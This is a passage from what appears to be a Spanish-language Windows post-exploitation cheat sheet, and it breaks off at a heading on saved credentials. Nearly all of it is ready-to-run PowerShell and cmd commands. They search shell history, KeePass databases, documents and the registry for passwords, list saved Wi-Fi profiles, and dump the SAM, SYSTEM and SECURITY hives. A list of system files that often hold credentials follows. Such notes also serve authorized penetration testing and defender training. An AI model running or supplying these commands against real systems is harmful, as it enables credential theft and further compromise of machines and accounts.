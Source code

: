 Buscamos información sensible.

```powershell
where /R C:\ bash.exe # Realiza una búsqueda del archivo (en este caso del binario bash.exe) en el sistema

Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\%username%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\elliot\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Select-String -Path C:\Users\elliot\Documents\*.txt -Pattern password

findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
findstr /S /I /C:"password" "C:\Users\*"*.txt *.ini *.cfg *.config *.xml
findstr /spin "password" *.*

# Visualización de redes inalámbricas guardadas
netsh wlan show profile
```

Buscar contraseñas en el Registro

```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

##### Volcado de credenciales

```powershell
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\system c:\temp\system.save
reg.exe save hklm\security c:\temp\security.save
```

Algunos otros archivos en los que podemos encontrar credenciales incluyen lo siguiente:

```powershell
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```
##### Credenciales guardadas
